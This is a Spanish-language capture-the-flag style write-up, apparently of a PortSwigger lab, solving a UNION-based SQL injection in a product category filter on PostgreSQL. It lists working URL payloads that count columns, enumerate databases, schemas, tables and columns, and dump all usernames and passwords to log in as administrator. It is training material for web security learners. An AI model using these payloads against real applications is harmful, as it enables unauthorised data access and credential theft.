 ```yaml
---
title: SQLI Lab 10
date: 2024-11-15 12:40:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - SQLI
tags:
  - SQLI (Error Based)
  - SQL injection UNION attack, retrieving multiple values in a single column
  - PostgreSQL
image:
  path: /assets/img/SQLI-Lab-10/Portswigger.png
---
```


## Skills

- SQL injection UNION attack, retrieving multiple values in a single column

## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` contiene una `vulnerabilidad` de `inyección SQL` en el `filtro` de `categoría` de `productos`. Los `resultados` de la `consulta` se `devuelven` en la `respuesta` de la `aplicación`, por lo que hay que utilizar un `ataque UNION` para recuperar datos de otras tablas. La base de datos contiene una tabla diferente llamada `users`, con columnas llamadas `username` y `password`. Para resolver el laboratorio, hay que realizar un ataque de `inyección SQL UNION` que recupere todos los nombres de `usuario` y `contraseñas`, y utilizar la información para `iniciar sesión` como el usuario `administrador`

---
## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/SQLI-Lab-10/image_1.png)

Si hacemos `click` en alguno de los `filtros`, nos filtrará los artículos por esta categoría

![](/assets/img/SQLI-Lab-10/image_2.png)

`Capturamos` la `petición` con `Burpsuite` y `añadimos` una `comilla` simple `'`

![](/assets/img/SQLI-Lab-10/image_3.png)

Si enviamos esta petición nos devolverá un `Internal Server Error`, lo cual quiere decir que estamos `interfiriendo` con la `consulta SQL` que se está produciendo

![](/assets/img/SQLI-Lab-10/image_4.png)

Si usamos este `payload` mediante el cual añadimos una comparación que `siempre` es `verdad` como `1=1`, ignoramos el resto de la consulta SQL con `-- - ` y enviamos la petición nuevamente no obtenemos ningún fallo, lo que quiere decir que la inyección `SQL` ha sido `exitosa`

```
/filter?category=Gifts'+or+1=1--+-+
```

![](/assets/img/SQLI-Lab-10/image_5.png)

Usando `order by` podemos saber el `número` de `columnas` que tiene la `tabla`, empleando este `payload` el resultado es un `200 OK`

```
/filter?category=Gifts'+order+by+2--+-+
```

Sin embargo, si empleamos este otro `payload` donde hacemos `order by 3`, nos devuelve un `Internal Server Error`, esto se debe a que al no existir `tres columnas` nos `arroja` un `fallo`

```
/filter?category=Gifts'+order+by+3--+-+
```

Una vez sabemos el número de columnas, usando `union select` vamos a obtener la información, en este caso, como no hemos recibido `ningún error`, podemos descartar que la `base` de `datos` usada sea `Oracle` debido a que en `Oracle` debemos añadir `from dual` al final, de lo contrario, nos arrojará un error

```
/filter?category=Gifts'+union+select+null,null--+-+
```

Confirmamos la `base` de `datos` en uso y también el su `versión`

```
/filter?category=Gifts'+union+select+null,version()--+-+
```

![](/assets/img/SQLI-Lab-10/image_6.png)


`Listamos` el `nombre` de todas las `bases` de `datos`

```
/filter?category=Gifts'+union+select+null,string_agg(datname,',')+from+pg_database--+-+
```

![](/assets/img/SQLI-Lab-10/image_7.png)

`Listamos` la `base de datos actual`

```
/filter?category=Gifts'+union+select+null,current_database()--+-+
```

![](/assets/img/SQLI-Lab-10/image_8.png)

`Listamos` los `esquemas` para la `base de datos en uso`

```
/filter?category=Gifts'+union+select+null,schema_name+from+information_schema.schemata--+-+
```

![](/assets/img/SQLI-Lab-10/image_9.png)

`Listamos` el `nombre` de las `tablas`

```
/filter?category=Gifts'+union+select+null,table_name+from+information_schema.tables+where+table_schema='public'--+-+
```

![](/assets/img/SQLI-Lab-10/image_10.png)

`Listamos` las `columnas` de la tabla `users`

```
/filter?category=Gifts'+union+select+null,string_agg(column_name,',')+from+information_schema.columns+where+table_name='users'--+-+
```

![](/assets/img/SQLI-Lab-10/image_11.png)

`Listamos` el `contenido` de la columna `username` y `password`

```
/filter?category=Gifts'+union+select+null,string_agg(username||':'||password,',+')+from+users--+-+
```

![](/assets/img/SQLI-Lab-10/image_12.png)

Nos `logueamos` con las `credenciales` del usuario `administrador`

![](/assets/img/SQLI-Lab-10/image_13.png)
